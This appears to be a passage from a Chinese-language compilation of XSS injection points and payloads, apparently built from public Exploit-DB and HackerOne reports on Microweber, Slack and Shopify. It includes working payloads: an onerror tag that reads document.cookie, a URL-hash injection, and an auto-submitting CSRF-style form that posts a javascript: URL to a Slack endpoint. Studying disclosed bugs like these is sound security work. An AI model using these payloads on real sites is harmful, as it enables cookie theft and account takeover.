 **步骤 3**：

- 从 /table?data=list&sort_param=stored 端点访问“Books List”（书籍列表）功能。

**步骤 4**：

- 在“Comments”（评论）字段中输入以下恶意载荷：

```
payload未作任何过滤！
```

### 30、Microweber 2.0.15 - 个人资料存储XSS

[Microweber 2.0.15 - Stored XSS - PHP webapps Exploit](https://www.exploit-db.com/exploits/52058)

1. **登录** Microweber 应用。

2. **导航至** `Users > Edit Profile`（用户 > 编辑个人资料）。

3. 在 **“First Name”**（名字）输入框中，输入以下 **XSS Payload（恶意代码）**：

   ```
   "><img src=x onerror=confirm(document.cookie)>
   ```

  ### 31、POST | 创建工作区名称 -> 电子邮件处

[Slack | Report #1461194 - Email html Injection | HackerOne](https://hackerone.com/reports/1461194)

### 32、GET 参数 

[Slack | Report #146336 - XSS vulnerable parameter in a location hash | HackerOne](https://hackerone.com/reports/146336)

```
https://slack.com/is#?cvo_sid1=111\u0026;typ=55577]")%3balert(document.cookie)%3b//
```

### 33、POST

https://api.slack.com/feedback/submit 接口的，path参数

payload:

```html
<form name="pisarenko" action="https://api.slack.com/feedback/submit" method="POST">
<input type='hidden' name='crumb' value="1"> 
<input type='hidden' name='path' value="javascript:alert()"> 
<input type='hidden' name='vote' value="Yes">
</form>
<script>document.pisarenko.submit();</script>
```

### 34. 注入点在back button的herf

[Shopify | Report #1754843 - Reflected XSS In Marketing Reports Page On *.myshopify.com/admin | HackerOne](https://hackerone.com/reports/1754843)
